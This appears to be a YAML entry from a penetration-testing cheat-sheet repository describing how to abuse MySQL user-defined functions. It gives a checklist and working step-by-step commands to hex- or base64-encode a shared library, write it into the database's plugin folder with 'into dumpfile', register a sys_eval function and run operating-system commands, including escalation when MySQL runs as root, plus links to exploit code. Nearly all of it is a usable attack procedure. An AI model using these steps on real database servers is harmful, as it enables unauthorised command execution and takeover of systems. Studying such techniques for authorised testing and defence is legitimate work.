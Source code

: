 ```yaml
---
functions:
  gain-access:
    - description: Create a user-defined function to pop a shell in teh context of the mysql user
    code: |
        Create a user-defined-function
        -------------------------------
        - [ ] Do you have write privileges to the db?
        - [ ] Is mysql running as root?
        - [ ] Can you locate the plugin folder?

        SHOW GRANTS;  <-- show privileges
        SHOW VARIABLES;  <-- find the plugin directory  (blank can mean default location of /usr/lib/)

        ===== STEP 1 =====
        Get your udf.so into the plugin folder

        Method 1: copy 
          Copy the udf.so into the plugin folder
          
        Method 2: perform a hexdump
          od -A n -t x1 lib_mysqludf_sys.so | sed 's/ *//g' | tr -d '\n' | xclip
          select <hex> into dumpfile "<plugin folder>/udf.so";

        Method 3: perform a base64 encoded  (IF MARIADB 5.6+)
          base64 <file> -w 0 > <file>.b64
          base64 -w 0 myudf.so > myudf.b64
          cat <file>.b64 | xclip

          set @lib = "<base64>";
          select from_base64(@lib) into dumpfile "<plugin folder>/udf.so";

        Method 4: transfer file via table inserts  (easiest)
          create table foo(line blob);insert into foo values(load_file('/tmp/myudf.so'));select * from foo into dumpfile "<plugin folder>/udf.so";

        ===== STEP 2 =====
        Create the user-defined function

        create function sys_eval returns string soname 'myudf.so';  (the function name may change depending on your UDF.so library)

        ===== STEP 3 =====
        Code execution

        select sys_eval('id');
        
  privilege-escalation:
    - description: Create a user-defined function to escalate privileges via mysql running as root
      code: |
        # Same as gain access

resources : |
  https://www.exploit-db.com/exploits/50236
  https://www.exploit-db.com/papers/44139/
  https://github.com/mysqludf/lib_mysqludf_sys  <-- this is the udf file I used
  https://github.com/MidnightSeer/scripts/blob/master/auto-udf.sh  <-- auto exploit, do not use unless you understand all of the above
---
```


